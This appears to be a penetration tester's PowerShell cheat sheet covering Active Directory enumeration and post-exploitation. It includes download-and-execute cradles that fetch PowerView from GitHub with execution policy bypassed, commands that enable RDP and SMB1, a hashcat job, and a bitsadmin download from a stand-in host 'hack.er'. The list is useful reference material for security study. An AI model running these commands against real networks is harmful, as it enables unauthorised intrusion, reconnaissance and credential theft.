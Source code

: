     Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-NetUser
        -display all AD users
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-UserProperties -Properties name,memberof,description,info
        -return AD user proprietary information
    set-ItemProperty -Path 'HKLM:\System\Current\ControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
        -format for making registry queries from powershell
        --enable RDP on target hostname
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
        -enable existing firewall rule, e.g. RDP allow
    powershell.exe -command New-NetFirewallRule -DisplayName "Allow Inbound Port 80" -Direction Inbound -LocalPort 80 -Protocol TCP -Action Allow
        -create new firewall rule set to allow
        --to create a block rule set -Action Block
    powershell.exe -command Get-Service
        -show all services
    powershell.exe -command Restart-Service
        -restart target service
    powershell.exe -command Get-Service Set-DNSClientServerAddress - InterfaceAlias "Ethernet" -ServerAddresses 8.8.8.8
        -Configure the DNS Server (to 8.8.8.8/Google)
    powershell.exe -command Get-Process
        -return a process listing
    Start-Job { 'C:\bin\hashcat\bin\hashcat64.exe' } -Name cracker
    bitsadmin /transfer jobname /download /priority normal http://hack.er/file.ext C:\Path\to\outfile.ext
        -download a file
        ACTIVE DIRECTORY cmdlets
    Get-Job -State
    Stop-Job cracker
    Get-Command *text*
    Get-Command -Verb Get
    Get-Command -Noun Service
    Get-Help Get-Command (-Detailed,-Full,-Examples,-Online)
        OR
    Get-Command -?
    Get-SmbServerConfiguration
    Set-SmbServerConfiguration -EnableSMB1Protocol $true
    Get-ChildItem -Path C:\path -Filter namedpipe.exe -Recurse -ErrorAction SilentlyContinue -Force
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-NetComputers
        -return listing of hosts in Active Directory
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Get-Information
        -return information collected on sys,reg,&c
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Invoke-Userhunter
        -search network for hosts in use by Domain Admin(s)
    Powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/cheetz/PowerTools/master/PowerView/powerview1.ps1');Invoke-Userhunter -UserName "admin"
        -search network for host user "admin" is on
    get-aduser -filter {name -like "krbtgt*"} -prop Name,Created,PasswordLastSet,msDS-KeyVersionNumber,msDS-KrbTgtLinkB1
        -get information for krbtgt active directory domain account
    Get-ADForest | Select Domains
        -enum domains in an AD forest
    Get-ADDomain | FL NetBIOSName
        -get netbios name of an AD domain
    Get-ADTrust -filter *
 